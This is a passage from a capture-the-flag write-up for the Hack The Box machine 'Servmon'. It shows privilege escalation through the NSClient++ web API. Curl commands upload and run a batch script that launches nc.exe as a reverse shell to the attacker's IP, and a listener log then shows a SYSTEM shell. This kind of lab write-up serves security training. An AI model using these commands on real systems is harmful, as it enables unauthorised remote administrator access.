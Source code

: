 ```bash
                                                                                                                                                                                                                                                                                                                           
PS C:\Temp> exit 

nadine@SERVMON C:\Users\Nadine>exit
```
Let's go to `NSClient Directory`

> cd C:/\"Program Files"/\"NSClient++"

Add our script in `NSClient++`  

*Command* run from normal shell
```bash
curl -s -k -u admin -X PUT https://localhost:8443/api/v1/scripts/ext/scripts/evil.bat --data-binary "C:\Temp\nc.exe 10.10.14.168 443 -e cmd.exe"
```

Now we `execute` the script

```bash
curl -s -k -u admin https://localhost:8443/api/v1/queries/evil/commands/execute?time=1m
```
Check Back on you machine and you must have `listened` something

```bash
 ~/htb/boxes/Servmon >> sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.168] from (UNKNOWN) [10.10.10.184] 49855
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\Desktop>whoami
whoami
nt authority\system

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 728C-D22C

 Directory of C:\Users\Administrator\Desktop

08/04/2020  23:12    <DIR>          .
08/04/2020  23:12    <DIR>          ..
05/05/2020  14:35                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)  27,341,996,032 bytes free

C:\Users\Administrator\Desktop>

```

# Resources:~$
